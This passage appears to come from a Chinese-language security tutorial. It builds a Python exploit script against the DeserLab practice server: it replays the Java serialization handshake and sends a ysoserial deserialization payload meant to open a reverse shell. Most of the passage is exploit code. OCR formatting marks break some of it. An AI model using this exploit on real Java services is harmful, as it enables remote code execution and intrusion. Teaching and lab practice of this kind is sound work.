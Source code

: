 ```
**# Send client name: test**
target.send("**\x77\x06**")
target.send("**\x00\x04\x74\x65\x73\x74**")
```

最后，我们必须从有效负载中去除魔术字节，因为我们已经发送了这些字节。服务器期望接收到不包含这些数据的对象。Python 允许我们使用`[4:]`数组表示法去除前四个字节：

```
**# Remove the 0xAC 0xED magic bytes from the payload**
payload = payload**[4:]**

```

最后一步是发送 ysoserial 有效负载，当反序列化时，希望能够执行我们的反向 Shell：

```
**# Send the ysoserial payload to the target**
print "[+] Sending payload..."
target.send(**payload**)
target.recv(1024)

print "[+] Done."
```

最终的漏洞利用脚本`exploit_deserlab.py`应如下所示：

```
import socket

target_host = '**deserlab.app.internal**'
target_port = **4321**

**# Open the ysoserial generated exploit payload**
print "[+] Reading payload file..."
f = open('**deserlab_payload.bin**', 'rb')
**payload** = f.read()
f.close()

target = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
target.connect((target_host, target_port))

**# Send magic bytes and version**
target.send("**\xAC\xED\x00\x05**")
target.recv(1024)

**# Send 'hello' packet**
target.send("**\x77\x04**")
target.send("**\xF0\x00\xBA\xAA**")
target.recv(1024)

**# Send client version**
target.send("\x77\x02")
target.send("\x01\x01")
target.recv(1024)

**# Send client name: test**
target.send("**\x77\x06**")
target.send("**\x00\x04\x74\x65\x73\x74**")

**# Remove the 0xAC 0xED magic bytes from the payload**
**payload** = **payload[4:]**

**# Send the ysoserial payload to the target**
print "[+] Sending payload..."
target.send(**payload**)
target.recv(1024)

```